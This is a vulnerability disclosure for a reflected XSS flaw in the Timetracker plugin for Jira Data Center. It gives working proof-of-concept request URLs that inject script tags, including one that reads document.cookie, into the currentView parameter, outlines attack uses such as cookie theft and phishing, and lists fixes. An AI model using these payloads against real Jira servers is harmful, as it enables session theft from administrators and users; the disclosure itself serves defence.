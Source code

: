 Vulnerability submitted by Shuning Xu
Supplier: https://www.atlassian.com/zh/software/jira
Software download link: https://www.atlassian.com/software/jira/update
Affected software :jira software
Vulnerability plug-in name: timetrackers - Time Tracking & Reporting for Jira
Vulnerability plugin Version: Version 5.2.0•Jira Data Center 9.0.0-9.10.1
Description :jira software download selected HOSTING TYPES to download the latest version of data center 9.10.1 locally to install the Timetracker plug-in. The Timetracker plug-in has XSS vulnerability, that is, cross-site scripting attack. The attacker inserts malicious JavaScript code into the web page (input form, URL, message board, etc.), causing the administrator/user to access the trigger, thus achieving the purpose of the attack. The essential reason is that the server is not strict in filtering the data submitted by the user, resulting in the browser treating the user's input as JS code and directly returning it to the client for execution. What appears here is reflective XSS. Attackers using reflective cross-site scripting attacks can steal cookies from users such as administrators, steal clipboard content, change web content (such as download links), and so on.

Test process:
1. After installing the plug-in timetrackers Time Tracking & Reporting for Jira, the paid plug-in needs to obtain a license and activate the plug-in.
Download address: the page/plugins/servlet/upm/marketplace/featured? source=side_nav_find_new_addons Enter the plug-in name. Timetrackers - Time Tracking & Reporting for Jira download
! [image - xss1.1 [Timetracker]] (xss1.1 [Timetracker]. PNG)

Or download in the app store at https://marketplace.atlassian.com/apps/1211243/timetracker-time-tracking-reporting-for-jira?hosting=datacenter &tab=overview
! [image - xss1.2 [Timetracker]] (xss1.2 [Timetracker]. PNG)

2. Navigate to the URL:
http://localhost:port/rest/jttp-rest/latest/calendar/change-date?date=1692611158671&worklogValues=%7B%22startTime%22%3A%22%22%2C%22endTime%22%3A%22%22%2C%22durationTime%22%3A%22%22%2C%22isDuration%22%3Atrue%2C%22comment%22%3A%22%22%2C%22issueKey%22%3A%5B%5D%2C%22period%22%3Afalse%7D&actionWorklogId=$actionWorklogId&editAll=&showMoveAllNoPermission=false&actionFlag=&changeDateType=picker&currentView=month&_=1692611161613

! [image - xss1.3 [Timetracker]] (xss1.3 [Timetracker]. PNG)

3. Launch Burp Suite to capture network traffic. Use Burpsuite to capture and change packets for detection:
! [image - xss1.4 [Timetracker]] (xss1.4 [Timetracker]. PNG)

4. Change the currentView parameter to <sCrIpT>alert(1)</sCrIpT> and send the modified url.

/rest/jttp-rest/latest/calendar/change-date?date=1692611158671&worklogValues=%7B%22startTime%22%3A%22%22%2C%22endTime%22%3A%22%22%2C%22durationTime%22%3A%22%22%2C%22isDuration%22%3Atrue%2C%22comment%22%3A%22%22%2C%22issueKey%22%3A%5B%5D%2C%22period%22%3Afalse%7D&actionWorklogId=$actionWorklogId&editAll=&showMoveAllNoPermission=false&actionFlag=&changeDateType=picker&currentView=<sCrIpT>alert(1)</sCrIpT>

Or change the currentView parameter to <sCrIpT>alert(document.cookie)</sCrIpT> and send the modified url.
/rest/jttp-rest/latest/calendar/change-date?date=1692611158671&worklogValues=%7B%22startTime%22%3A%22%22%2C%22endTime%22%3A%22%22%2C%22durationTime%22%3A%22%22%2C%22isDuration%22%3Atrue%2C%22comment%22%3A%22%22%2C%22issueKey%22%3A%5B%5D%2C%22period%22%3Afalse%7D&actionWorklogId=$actionWorklogId&editAll=&showMoveAllNoPermission=false&actionFlag=&changeDateType=picker&currentView=<sCrIpT>alert(document.cookie)</sCrIpT>

5. A pop-up window will appear on the web page, and an alarm box showing 1 will pop up, triggering XSS, indicating that there is cross-site vulnerability, recording the vulnerability, and stopping the test.

![image-xss1.5[Timetracker]](xss1.5[Timetracker].png)

A pop-up warning box showing cookies

![image-xss1.6[Timetracker]](xss1.6[Timetracker].png)

Attack steps:
1. Attackers create and test malicious URLs;
2. The attacker is sure that the victim loaded a malicious URL in the browser;
3. The attacker uses reflective cross-site scripting attacks to install keyloggers, steal victims' cookies, steal clipboard content, and change web page content (such as download links).
Attack method:
1. Use xss testing platform BlueLotus to steal cookies
2. Malicious links
3. Web phishing
4. Redirection implanted advertisement
Risk level: Reflective cross-site presence in the application
Repair solution: For XSS cross-site vulnerabilities, the following repair methods can be used:
Overall fix: Validate all input data to effectively detect attacks; properly encode all output data to prevent any successfully injected scripts from running on the browser side. details as follows :
Input Validation: Validate the length, type, syntax, and business rules of all input data using standard input validation mechanisms before a certain data is accepted for display or storage.
Output encoding: Before data output, ensure that the data submitted by the user has been correctly encoded by entity. It is recommended to encode all characters instead of being limited to a certain subset.
Explicitly specify the encoding of the output: do not allow an attacker to choose an encoding for the user (such as ISO 8859-1 or UTF 8).
Pay attention to the limitations of the blacklist verification method: just find or replace some characters (such as "<" ">" or keywords like "script"), it is easy to bypass the verification mechanism by XSS variant attacks.
Beware of normalization errors: Before validating input, it must be decoded and normalized to conform to the application's current internal representation. Make sure the application does not decode the same input twice. To filter the data submitted by the client, it is generally recommended to filter out special characters such as double quotes ("), angle brackets (<, >), or perform entity conversion on the special characters contained in the data submitted by the client, such as double quotes (") into its entity form &quot;, <corresponding entity form is &lt;, <corresponding entity form is&gt.